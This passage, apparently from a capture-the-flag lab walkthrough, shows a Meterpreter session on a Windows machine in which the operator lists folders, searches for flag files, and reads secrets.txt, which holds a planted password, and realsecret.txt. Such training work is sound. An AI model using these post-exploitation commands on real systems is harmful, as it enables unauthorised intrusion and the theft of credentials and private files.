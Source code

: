```bash
meterpreter > ls
Listing: C:\Program Files (x86)\Windows Multimedia Platform
===========================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  35     fil   2021-07-30 17:44:27 +1000  secrets.txt
100666/rw-rw-rw-  40432  fil   2018-09-15 17:12:04 +1000  sqmapi.dll

meterpreter > cat secrets.txt 
My Twitter password is KDSvbsw3849!
```

The next flag we are after is `realsecret.txt`.

```bash
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 18:30:24 +1000

meterpreter > cd c:\\inetpub\\wwwroot
meterpreter > ls
Listing: c:\inetpub\wwwroot
===========================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  729    fil   2021-07-30 17:56:30 +1000  iisstart.htm
100666/rw-rw-rw-  99710  fil   2021-07-30 16:52:45 +1000  iisstart.png
100666/rw-rw-rw-  34     fil   2021-07-30 18:30:24 +1000  realsecret.txt

meterpreter > cat realsecret.txt 
The Flash is the fastest man alive
```

